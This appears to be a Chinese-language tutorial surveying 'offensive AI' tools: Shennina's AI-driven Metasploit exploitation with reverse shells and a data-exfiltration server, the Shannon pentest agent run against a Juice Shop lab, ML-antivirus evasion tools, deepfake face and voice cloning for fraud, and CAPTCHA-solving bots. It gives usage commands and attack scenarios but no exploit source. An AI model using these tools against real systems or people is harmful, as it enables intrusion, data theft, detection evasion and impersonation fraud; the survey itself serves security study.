

## 进攻性AI

"进攻向 AI"（Offensive AI）是网络安全领域一个极具争议且快速发展的方向。

它指的是利用机器学习（ML）和生成式人工智能（GAI）技术来自动化、精确化并规模化网络攻击的各个阶段。

在学术界和红队研究中，这通常被称为"对抗性 AI"（Adversarial AI）。

## 攻击链




## AI漏洞扫描

传统的漏洞扫描（如 Nessus 或 OpenVAS）主要基于已知的特征库

而在"进攻向 AI"的范畴内，AI 漏洞扫描正在经历从"基于规则（Rule-based）"向"基于推理（Reasoning-based）"的范式演变。

传统扫描 vs. AI 扫描的本质区别:

+ **传统工具**（如 Nessus, Burp Suite）：本质上是"特征匹配"。它们发送预定义的 Payload，并检查返回包中是否包含特定的字符串（如 root:x:0:0）。它们无法理解应用的逻辑，因此在处理逻辑漏洞（IDOR）、越权访问或复杂的 WAF 绕过时力不从心。

+ **AI 漏洞扫描**：利用大语言模型（LLM）的语义理解和自主决策能力。AI 不仅仅看返回包的字符，它能理解"为什么要测这个参数"以及"这个异常响应是否暗示了更深层的漏洞"。

### Shennina —— 具备上下文意识的扫描利器

项目地址：

[](https://github.com/mazen160/shennina)https://github.com/mazen160/shennina

Shennina 由知名安全研究员 Mazen Ahmed 开发。它将 LLM 的推理能力直接注入到动态应用安全测试（DAST）流程中。

Shennina 数据外泄代理是一个简单的代理，它在后渗透阶段执行各种任务，并以系统化的方式直接连接到数据外泄服务器。发送到数据外泄服务器的数据经过编码。

启动数据泄露服务器。

```bash
$ cd ./exfiltration-server/
$ ./run-server.sh
```

它将自动构建组件，并以nobody身份运行的隔离 Docker 容器中运行构建。

应将外泄服务器的 IP 地址放在./config.pyShennina 的EXFILTRATION_SERVER变量中，格式如下：SERVER_HOST:PORT。

要连接到 MSFRPCD，我们需要将凭据输入到： ./config/msfrpc-config.json。

我们应该复制config/msfrpc-config.json.example--> config/msfrpc-config.json，并生成一个随机密码。

> 请注意，使用默认密码或不安全的密码可能会导致攻击者的计算机被攻破。

然后运行`./scripts/run-msfrpc.py`，你的 Metasploit MSFRPCD 就建立起来了。

Shennina 采用了一种全面的方法，从 Metasploit 框架中选择可靠的远程漏洞利用程序。这种方法以及 Shennina 的其他功能，不仅消除了误报，还确保 Shennina 框架中的所有漏洞利用程序都可用于自动化远程攻击。

Shennina 首次运行时会自动初始化漏洞利用树。

要手动初始化漏洞利用树，请运行：

```bash
$ ./shennina.py --initialize-exploits-tree
```

运行 Shennina 很简单。只需执行`./shennina.py`。

指定目标和本地主机（LHOST）。本地主机是 Metasploit Framework 的本地主机，以便反向 shell 可以连接到它。

Shennina支持多种输入和格式：

+ IP地址
+ IP地址范围
+ 主机名

例如，192.168.1.0/24可以扫描 IP 地址范围。

一次扫描中可以进行多次输入，输入之间用逗号分隔，如：`"target1.local,target2.local,target3.local,192.168.1.0/24,target4.local"`。

服务扫描是 Shennina 执行的一个阶段，用于识别目标机器上可访问的服务，并将潜在的漏洞利用程序与每个服务进行匹配。Shennina 执行此阶段后，会将结果存储起来以供后续处理。

Shennina 每次运行时都会自动执行服务扫描阶段。最佳实践是使用相应选项单独运行服务扫描--service-scan-only，然后使用缓存的服务扫描结果进行训练和漏洞利用。

仅运行服务扫描

```bash
$ ./shennina.py --lhost metasploit-ip --target target.local --service-scan-only
```

Shennina 的训练模型默认采用强化学习模式。您也可以通过设置--reinforcement-training-mode参数将 Shennina 设置为强化学习模式。

```bash
$ ./shennina.py --training-mode --lhost lhost.local --target training-target.local
```

Shennina 的漏洞利用模式是该框架最重要的部分。Shennina 会收集目标的数据，对其进行处理，然后将其输入到 AI 引擎中，由 AI 引擎确定针对目标的最佳漏洞利用方案。

一旦确定了最佳漏洞利用程序，就会对目标机器运行该程序。如果确认该漏洞利用程序对目标有效，则会启动自动化的后渗透和数据窃取阶段。

以后利用模式运行

```bash
$ ./shennina.py --lhost lhost.local --target target.local --exploitation-mode
```

以 AI 为核心，利用之前已经收集到的服务信息（缓存），针对目标 IP地址 发起一场智能漏洞狩猎。如果发现漏洞，请尝试让目标回连到我本地的 http://172.17.0.1:8040 来向我证明攻击成功。

```bash
./shennina.py --lhost http://127.0.0.1:8040 --target 192.169.0.1 --use-cached-service-scan --vulnerability-scan-mode
```

### Shannon —— 自主作战的 AI 安全代理（Agent）

项目地址：

[](https://github.com/KeygraphHQ/shannon)https://github.com/KeygraphHQ/shannon

Shannon 则是一个**自主的黑客代理**。它不仅仅是扫描，它更倾向于模仿一个人类渗透测试员的操作逻辑。

首先，我们需要设置token，这里采用claude的

```bash
export ANTHROPIC_API_KEY="your-api-key"              # or CLAUDE_CODE_OAUTH_TOKEN
```

Shannon 是一个主动型 Agent，它需要一个存活的 Web 地址来发送请求、爬取页面、测试 XSS/SQLi 等。它不能直接"攻击"一个静态文件夹，它必须有交互对象。

为此我们可以安装owasp的juice-shop靶机并执行命令启动该靶机

```bash
docker run --rm -p 127.0.0.1:3000:3000 bkimminich/juice-shop
```

接着，将juice-shop源码仓库放置到Shannon目录的repo目录中，并执行命令即可进行扫描。

```bash
./shannon start URL=http://127.0.0.1:3000 REPO=myrepo
```

更多AI漏洞扫描可以查看以下工具：

+ https://github.com/samugit83/redamon
+ https://github.com/vxcontrol/pentagi
+ https://github.com/CyberSecurityUP/NeuroSploit
+ https://github.com/PurpleAILAB/Decepticon

## AI恶意软件对抗

在"进攻向 AI"的领域中，AI 恶意软件对抗（AI Malware Adversarialism） 是最具技术挑战性的分支之一。它本质上是黑客与安全厂商之间的一场"算法军备竞赛"。

传统的杀毒软件（AV）和端点检测与响应（EDR）系统已经从“特征码匹配”进化到了“机器学习检测”。现代安全产品会分析文件的：
+ **静态特征**：如熵值、导入表函数、分段信息等。
+ **动态行为**：如 API 调用序列、内存注入模式等。

AI 恶意软件对抗的目的就是通过 AI 技术，找到这些检测模型的"数学盲点"，在不改变恶意软件原有功能的前提下，对其进行微调，使其在 AI 检测器眼中看起来像是一个'完全合法的办公软件"。

那我们主要采用以下两种 AI 路径：
+ **对抗性扰动**（Adversarial Perturbations）：在二进制文件中加入“干扰数据”。这些数据对程序运行无影响，但能极大地改变机器学习模型提取的特征向量。
+ **功能保留变换**（Function-Preserving Mutations）：通过重组代码、插入无用指令（Junk Code）或改变加壳方式，改变文件的统计特性。

### Pesidious

项目地址：

https://github.com/CyberForce/Pesidious

Pesidious 是一款专门针对 Windows PE（可执行文件）的对抗性变异工具。它结合了 强化学习（Reinforcement Learning） 和 生成对抗网络（GANs），旨在全自动地修改恶意软件以绕过机器学习分类器。

### MalwareGAN

项目地址：

https://github.com/ZaydH/MalwareGAN

MalwareGAN 更侧重于利用 生成对抗网络（GAN） 的框架，从特征层面上学习如何"骗过"分类器。

## 深伪欺诈

在"进攻向 AI"的版图中，深伪欺诈（Deepfake Fraud） 是目前对社会信任体系冲击力最强、最直接的威胁。它利用生成式 AI 技术伪造人类的生物特征，从而实现身份冒充和心理欺骗。

深伪（Deepfake）是"深度学习"（Deep Learning）与"伪造"（Fake）的合称。在欺诈场景中，攻击者通过克隆目标人物（如高管、亲属、名人）的面部图像、表情、音色和语调，制作极其逼真的虚假音视频。

核心攻击场景:
+ 虚拟会议劫持：在 Zoom 或 Teams 视频会议中，攻击者实时换脸成 CEO 的形象，命令财务人员执行“秘密收购转账”。（2024 年香港某公司因此被骗 2 亿港元）。
+ 语音钓鱼（Vishing）：通过电话克隆家属或领导的声音，编造“绑架”或“紧急资金短缺”的借口。
+ 绕过身份验证（KYC）：利用动态换脸技术，尝试欺骗银行应用的真人面部识别系统。

### Deep-Live-Cam

项目地址：

https://github.com/hacksider/Deep-Live-Cam

Deep-Live-Cam 是一款简单到令人恐惧的工具。它能够实现“单图换脸”：你只需要一张目标人物的照片，它就能在你的摄像头直播画面中实时替换成那个人的脸，且表情同步率极高。

### Voice-Pro

项目地址：

https://github.com/abus-aikorea/voice-pro

Voice-Pro 通常基于 RVC（Retrieval-based Voice Conversion） 技术。它能够在你说话的同时，瞬间改变你的音色，使之听起来完全像另外一个人。

### Real time voice cloning

项目地址：

https://github.com/corentinj/real-time-voice-cloning

5秒内克隆声音，实时生成任意语音

## 其它工具

用于分析渗透测试屏幕截图的卷积神经网络

https://github.com/BishopFox/eyeballer

人工智能驱动的渗透测试助手，可自动执行侦察、笔记记录和漏洞分析

https://github.com/berylliumsec/nebula

基于多模态LLM的代理程序可自动解决验证码

https://github.com/AashiqRamachandran/i-am-a-bot

人工智能驱动的暗网开源情报工具

https://github.com/apurvsinghgautam/robin/


